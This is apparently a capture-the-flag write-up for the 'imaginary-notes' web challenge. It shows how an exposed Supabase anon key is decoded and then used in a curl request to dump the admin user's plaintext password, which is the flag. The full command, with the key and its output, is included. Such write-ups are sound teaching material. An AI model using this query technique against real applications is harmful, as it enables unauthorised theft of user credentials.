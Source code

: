 ```yaml
---
layout: post
title:  "imaginary-notes"
date:   2025-09-08 21:26:43 -0400
author: robo.uzi
tags: [ctf]
permalink: /imaginaryctf-2025-imaginary-notes/
---
```


**Title:** imaginary-notes

**Category:** Web

**Author:** cleverbear57

**Description:** I made a new note taking app using Supabase! Its so secure, I put my flag as the password to the "admin" account. I even put my anonymous key somewhere in the site. The password database is called, "users". 

`http://imaginary-notes.chal.imaginaryctf.org`

I go to the site and see a login page and an option for a signup. I try some common credentials, then register and login. 

As I login (with browser tools in the network tab) I see a GET request to `https://dpyxnwiuwzahkxuxrojp.supabase.co/rest/v1/users?select=*&username=eq.uzi&password=eq.uzi`. 

In the headers I see the api key. I put it in `jwt.io`:
```shell 
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "iss": "supabase",
  "ref": "dpyxnwiuwzahkxuxrojp",
  "role": "anon",
  "iat": 1751760507,
  "exp": 2067336507
}
```

I can query the database using the anon api key. Make this request:
```shell
curl -H "apikey: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI" "https://dpyxnwiuwzahkxuxrojp.supabase.co/rest/v1/users?select=*&username=eq.admin"

[{"id":"5df6d541-c05e-4630-a862-8c23ec2b5fa9","username":"admin","password":"ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}"}]
```
`ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}`
